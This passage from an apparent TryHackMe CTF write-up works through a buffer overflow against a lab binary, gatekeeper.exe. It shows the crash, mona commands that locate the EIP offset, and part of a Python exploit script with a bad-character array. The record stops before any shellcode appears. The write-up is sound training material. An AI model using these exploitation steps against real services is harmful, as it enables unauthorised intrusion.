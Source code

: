 ```
Received connection from remote host.
Connection handed off to handler thread.
Bytes received: 1002
send failed: 10038
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Gatekeeper/images/a9.png)

**We crashed the executable!**

**Next, find the EIP offset:**
```
!mona pattern_offset EIP_VALUE
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Gatekeeper/images/a10.png)

- Found EIP offset: 146

**Let's update our python exploit script for sanity check!**
```py
offset = 146
payload = b'A' * offset + b'B' * 4
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# python3 exploit.py
[+] Sending evil buffer...
[+] Done!
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Gatekeeper/images/a11.png)

**The EIP register has successfully overwritten by 4 B's (42 = B, 41 = A)!**

- Next, We need to find the bad characters:

**To do so, I'll use mona's `bytearray`:**
```
# Generate array of all possible characters except the null byte(\x00):
!mona bytearray -cpb "\x00"
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Gatekeeper/images/a12.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Gatekeeper/images/a13.png)

**Copy and paste those bytes to our python script:**
```py
#!/usr/bin/env python3

import socket

ip = '192.168.183.144' # Your Windows VM IP
port = 31337 # The gatekeeper.exe listening port

offset = 146
payload = b'A' * offset + b'B' * 4
bad_char = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
bad_char += b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
bad_char += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
bad_char += b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
```